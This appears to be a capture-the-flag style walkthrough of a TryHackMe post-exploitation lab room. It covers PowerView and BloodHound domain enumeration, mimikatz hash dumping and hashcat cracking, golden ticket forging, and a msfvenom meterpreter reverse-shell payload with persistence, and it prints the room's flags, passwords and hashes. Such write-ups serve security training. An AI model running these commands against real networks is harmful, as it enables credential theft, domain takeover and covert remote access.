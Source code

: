 ```yaml
---
description: https://tryhackme.com/room/postexploit
---
```


# Post-Exploitation Basics

## Task 2 Enumeration w/ Powerview

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
```

#### **What is the shared folder that is not set by default?**

```
Invoke-ShareFinder
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 17-45-20.png>)

{% hint style="success" %}
`Share`
{% endhint %}

#### **What operating system is running inside of the network besides Windows Server 2019?**

```
Get-NetComputer -FullData | select operatingsystem
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 17-44-54.png>)

{% hint style="success" %}
`Windows 10 Enterprise Evaluation`
{% endhint %}

#### **I've hidden a flag inside of the users find it**

```
Get-NetUser | select cn
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 17-43-49.png>)

{% hint style="success" %}
`POST{P0W3RV13W_FTW}`
{% endhint %}

## Task 3 Enumeration w/ Bloodhound

```bash
scp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe \
    Administrator@10.10.207.10:/C:/Users/Administrator/
```

```
SharpHound.exe -c All -d CONTROLLER.local --zipfilename loot.zip
```

```bash
scp Administrator@10.10.207.10:/C:/Users/Administrator/20220314071651_loot.zip .
sudo neo4j console
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 21-54-12.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-14 21-54-24.png>)

```bash
bloodhound
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 21-55-08.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-14 22-19-55.png>)

#### **What service is also a domain admin**

![](<../../.gitbook/assets/Screenshot from 2022-03-14 22-21-27.png>)

{% hint style="success" %}
`SQLSERVICE`
{% endhint %}

#### **What two users are Kerberoastable?**

![](<../../.gitbook/assets/Screenshot from 2022-03-14 22-22-38.png>)

{% hint style="success" %}
`KRBTGT, SQLSERVICE`
{% endhint %}

## Task 4 Dumping hashes w/ mimikatz

```bash
cd Downloads
mimikatz.exe
mimikatz # privilege::debug 
mimikatz # lsadump::lsa /patch
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 22-30-06.png>)

#### what is the Machine1 Password?

```bash
echo '64f12cddaa88057e06a81b54e73b949b' > hash.txt
hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 22-34-40.png>)

{% hint style="success" %}
`Password1`
{% endhint %}

#### What is the Machine2 Hash?

{% hint style="success" %}
`c39f2beb3d2ec06a62cb887fb391dee0`
{% endhint %}

## Task 5 Golden Ticket Attacks w/ mimikatz

```bash
xfreerdp /v:10.10.207.10 /u:administrator /p:'P@$$W0rd' /cert-ignore \
         +clipboard /dynamic-resolution /drive:share,/tmp
```

```bash
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local \
                 /sid:S-1-5-21-849420856-2351964222-986696166 \
                 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
kerberos::ptt ticket.kirbi
misc::cmd
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 22-53-55.png>)

## Task 6 Enumeration w/ Server Manager

#### What tool allows to view the event logs?

![](<../../.gitbook/assets/Screenshot from 2022-03-14 23-04-58.png>)

{% hint style="success" %}
Event Viewer
{% endhint %}

#### What is the SQL Service password

![](<../../.gitbook/assets/Screenshot from 2022-03-14 23-05-42.png>)

{% hint style="success" %}
`MYpassword123#`
{% endhint %}

## Task 7 Maintaining Access

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.6.9.176 \
         -a x86 --platform windows -f exe -o payload.exe
cp payload.exe /var/www/html
```

```bash
msfconsole
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 23-13-43.png>)

```bash
meterpreter > background
msf > use exploit/windows/local/persistense
msf > set SESSION 1
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-14 23-16-00.png>)

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux" %}
